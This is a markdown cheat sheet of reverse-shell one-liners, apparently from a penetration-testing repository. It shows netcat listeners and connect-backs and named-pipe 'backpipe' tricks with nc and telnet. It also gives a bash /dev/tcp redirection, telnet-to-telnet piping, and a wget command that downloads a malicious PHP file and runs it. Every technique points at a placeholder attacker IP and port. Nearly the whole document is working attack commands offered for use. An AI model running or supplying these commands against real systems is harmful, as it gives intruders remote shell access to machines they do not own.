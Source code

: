 

# Reverse Shell

## Netcat

Target machine connect back to the attack machine

```
nc [ip addr] [port] -e [shell]
```

Attack machine listener

```
nc -n -vv -l -p [port]
```

## netcat with GAPING_SECURITY_HOLE disabled

Target machine connect back to the attack machine with `GAPING_SECURITY_HOLE` disabled

```
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

##  netcat without netcat

It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system.

### Target Machine
```
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

## netcat without netcat or /dev/tcp

### Target Machine
```
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

## telnet-to-telnet
This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

```
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
```

## PHP reverse shell via interactive console

```
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
